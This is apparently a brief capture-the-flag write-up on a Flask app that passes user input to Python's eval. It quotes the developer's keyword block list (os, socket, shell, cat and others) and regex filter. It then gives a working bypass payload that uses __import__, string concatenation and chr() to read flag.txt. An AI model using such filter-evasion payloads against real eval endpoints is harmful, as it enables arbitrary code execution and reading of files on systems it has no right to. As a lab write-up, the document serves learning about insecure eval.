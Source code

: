 The Eval function evaluates the string expression and returns its value. For example, Eval("1 + 1") returns 2.
Viewing the source code the programmer left some comments where he/she implement a blacklist of characters.
 TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'

The following payload: __import__('os').popen('ls').read() was blockedas 'os' and 'ls' is in the blacklist
using regrex and and python chr() function together with __import__ as it's not blocked.
__import__('o'+'s').popen('c' + 'at' + chr(47) + 'flag.' + 'txt').read()
